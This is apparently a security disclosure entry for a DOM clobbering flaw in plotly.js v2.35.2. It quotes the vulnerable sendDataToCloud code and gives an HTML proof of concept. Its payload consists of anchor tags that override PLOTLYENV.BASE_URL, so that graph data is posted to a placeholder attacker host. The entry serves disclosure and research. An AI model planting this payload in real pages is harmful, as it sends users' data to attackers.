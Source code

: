 ## plotly.js

### Meta

+ Library: plotly.js
+ Stars: 16.9K
+ Version: v2.35.2
+ Fingerprint: `window.PLOTLYENV  !== undefined`
+ Payload: ```<a id="PLOTLYENV"></a><a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>```
+ Impact: CSRF
+ CVE: N/A
+ Status: Reported
+ Security Policy: Email
+ Foundby: TheHulk

### Library

https://github.com/plotly/plotly.js

### Vulnerable Code Snippet

```javascript
plots.sendDataToCloud = function(gd) {
    var baseUrl = (window.PLOTLYENV || {}).BASE_URL || gd._context.plotlyServerURL;
    if(!baseUrl) return;

    gd.emit('plotly_beforeexport');

    var hiddenformDiv = d3.select(gd)
        .append('div')
        .attr('id', 'hiddenform')
        .style('display', 'none');

    var hiddenform = hiddenformDiv
        .append('form')
        .attr({
            action: baseUrl + '/external',
            method: 'post',
            target: '_blank'
        });

    var hiddenformInput = hiddenform
        .append('input')
        .attr({
            type: 'text',
            name: 'data'
        });

    hiddenformInput.node().value = plots.graphJson(gd, false, 'keepdata');
    hiddenform.node().submit();
    hiddenformDiv.remove();

    gd.emit('plotly_afterexport');
    return false;
};
```

## PoC

```html
<!--Library-->
<div id="gd"></div>
<script src="https://cdn.plot.ly/plotly-2.35.2.min.js" charset="utf-8"></script>
<script>
    Plotly.newPlot("gd", /* JSON object */ {
        "data": [{ "y": [1, 2, 3] }],
        "layout": { "width": 600, "height": 400}
    })
    Plotly.Plots.sendDataToCloud(gd);
</script>
<!--Library-->

<!--Payload-->
<a id="PLOTLYENV" href="https://xxx.xxx.xxx/?a="></a>
<a id="PLOTLYENV" name="BASE_URL" href="https://xxx.xxx.xxx/?a="></a>
<!--Payload-->
```